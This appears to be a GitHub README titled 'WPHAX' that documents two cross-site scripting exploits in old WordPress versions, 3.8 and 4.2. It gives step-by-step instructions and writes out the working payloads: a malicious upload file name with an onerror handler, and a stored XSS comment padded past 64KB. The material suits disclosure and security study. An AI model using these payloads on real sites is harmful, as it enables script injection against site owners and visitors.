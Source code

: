 # WPHAX 

## **Exploit 1**
WP Version used: **3.8**

**Description:**
"Upload media" section can be hacked with **XSS**.

**Steps:**

* Go to **Upload Media** menu.

* Upload a file which is more than **20MB** with `"file<img src=x onerror=alert("hacked")>.png"` name.
![Upload Media](https://i.imgur.com/Ad0wZIt.png)

* Done
![XSS](https://i.imgur.com/aRp2L62.png)


## **Exploit 2**
WP Version used: **4.2**

**Description:**
Stored **XSS** can be executed with malicious comment.

**Steps:**

* Leave a comment (with a string bigger than 64KB): `<a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  AA... AA'></a>`
![Leave the comment](https://i.imgur.com/VVD3ZqO.png)

* View the comment on the page
![View as admin](https://i.imgur.com/wwVBiiG.png)

* Done
![View as admin](https://i.imgur.com/0HTXTUk.png)
